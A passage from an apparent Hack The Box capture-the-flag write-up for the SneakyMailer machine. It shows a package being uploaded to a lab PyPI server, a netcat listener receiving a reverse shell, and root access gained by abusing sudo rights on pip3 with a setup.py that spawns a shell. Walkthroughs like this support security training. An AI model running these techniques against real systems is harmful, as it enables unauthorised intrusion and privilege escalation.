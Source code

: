 ```
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating example-pkg-YOUR-USERNAME-HERE-0.0.1
creating example-pkg-YOUR-USERNAME-HERE-0.0.1/example_pkg_YOUR_USERNAME_HERE.egg-info
copying files to example-pkg-YOUR-USERNAME-HERE-0.0.1...
copying setup.py -> example-pkg-YOUR-USERNAME-HERE-0.0.1
copying example_pkg_YOUR_USERNAME_HERE.egg-info/PKG-INFO -> example-pkg-YOUR-USERNAME-HERE-0.0.1/example_pkg_YOUR_USERNAME_HERE.egg-info
copying example_pkg_YOUR_USERNAME_HERE.egg-info/SOURCES.txt -> example-pkg-YOUR-USERNAME-HERE-0.0.1/example_pkg_YOUR_USERNAME_HERE.egg-info
copying example_pkg_YOUR_USERNAME_HERE.egg-info/dependency_links.txt -> example-pkg-YOUR-USERNAME-HERE-0.0.1/example_pkg_YOUR_USERNAME_HERE.egg-info
copying example_pkg_YOUR_USERNAME_HERE.egg-info/top_level.txt -> example-pkg-YOUR-USERNAME-HERE-0.0.1/example_pkg_YOUR_USERNAME_HERE.egg-info
Writing example-pkg-YOUR-USERNAME-HERE-0.0.1/setup.cfg
Creating tar archive
removing 'example-pkg-YOUR-USERNAME-HERE-0.0.1' (and everything under it)
running register
Registering example-pkg-YOUR-USERNAME-HERE to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Registering is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
running upload
Submitting dist/example-pkg-YOUR-USERNAME-HERE-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Uploading via this command is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
```
Checking back on our listener:
```
root@kali:~/Security/HackTheBox/SneakyMailer# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.66] from (UNKNOWN) [10.10.10.197] 56576
python -c 'import pty; pty.spawn("/bin/sh")'
$ whoami
whoami
low
$ cat ~/user.txt
{censored}
```
## Getting Root

```
$ sudo -l
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```
Let's check GTFOBins for a pip3 win.
```
$ TF=$(mktemp -d)
TF=$(mktemp -d)
$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
$ sudo pip3 install $TF
sudo pip3 install $TF
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.25cA4xw9Lq
# cat /root/root.txt
```